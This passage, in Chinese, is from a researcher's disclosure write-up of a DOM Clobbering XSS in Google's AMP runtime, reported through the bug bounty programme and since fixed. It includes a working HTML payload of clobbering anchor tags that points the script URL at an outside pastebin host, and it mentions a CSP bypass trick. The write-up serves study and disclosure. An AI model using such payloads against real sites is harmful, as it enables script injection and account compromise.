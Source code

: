 ```javascript
 
var singlePass = AMP_MODE.singlePassType ? AMP_MODE.singlePassType + "/" : "";
b.src = loc + "/rtv/" + AMP_MODE.rtvVersion; + "/" + singlePass + "v0/" + pluginName + ".js";
 
document.head.appendChild(b);
```

因此，在第1行中，代码创建了一个新的 `script` 元素。然后，检查 `AMP_MODE.test` 和 `window.testLocation` 是否存在。如果是这样，并且 AMP_MODE.localDev 为真（第11行），则将`window.testLocation` 作为生成脚本URL的基础。然后，在第17和18行中，将其他一些属性连接起来以形成完整的URL。虽然乍一看可能并不明显，但是由于代码的编写方式以及 DOM Clobbering，我们实际上可以控制完整的URL。让我们假设 `AMP_MODE.localDev` 和 `AMP_MODE.test` 为真，代码会进一步简化：

```javascript
var script = window.document.createElement("script");
script.async = false;
 
b.src = window.testLocation.protocol + "//" + 
        window.testLocation.host + "/dist/rtv/" + 
        AMP_MODE.rtvVersion; + "/" + 
        (AMP_MODE.singlePassType ? AMP_MODE.singlePassType + "/" : "") + 
        "v0/" + pluginName + ".js";
 
document.head.appendChild(b);
````

你还记得我们之前通过 DOM Clobbering 重载 `window.test1.test2` 的练习吗？现在我们需要做同样的事情，只要重载 `window.testLocation.protocol`。因此，最终的有效载荷：

```html
<!-- We need to make AMP_MODE.localDev and AMP_MODE.test truthy-->
<a id="AMP_MODE"></a>
<a id="AMP_MODE" name="localDev"></a>
<a id="AMP_MODE" name="test"></a>

<!-- window.testLocation.protocol is a base for the URL -->
<a id="testLocation"></a>
<a id="testLocation" name="protocol" 
   href="https://pastebin.com/raw/0tn8z0rG#"></a>
```

实际上，由于在 AMP 中部署了 Content-Security-Policy，因此代码在实际情况下无法执行：

```
Content-Security-Policy: default-src 'none'; 
script-src 'sha512-oQwIl...==' 
  https://cdn.ampproject.org/rtv/ 
  https://cdn.ampproject.org/v0.js 
  https://cdn.ampproject.org/v0/
```

我没有找到绕过 CSP 的方法，但是在尝试绕过 CSP 时，我发现了一种绕过基于目录的 CSP的 有趣方法，并且[我在推特上发表了](https://twitter.com/SecurityMB/status/1162690916722839552) （后来发现在 [2016年CTF中已经使用了相同的技巧](https://blog.0daylabs.com/2016/09/09/bypassing-csp/)）。Google在其漏洞赏金计划中，实际上并不期望绕过 CSP 但依然支付全部赏金。这仍然是一个有趣的挑战。 也许其他人会找到绕过的方法 🙂

## 总结

本文中，我已经展示了在满足某些条件的情况下如何使用 DOM Clobbering 执行XSS。这肯定是一个有趣的旅程！如果你想玩这些 XSS 练习，可以看看我的基于这种 XSS 的 XSS 挑战。

### 时间线

* 2019年8月15日 - 报告给谷歌
* 2019年8月16日 - “nice catch!”，
* 2019年9月10日 - 收到谷歌的回应：“这个漏洞很有价值，谢谢报告！”，
* 2019年10月12日 - 谷歌确认漏洞已经修复（尽管现实中之前就已经修复了）
* 2019年11月18日 - 发表。
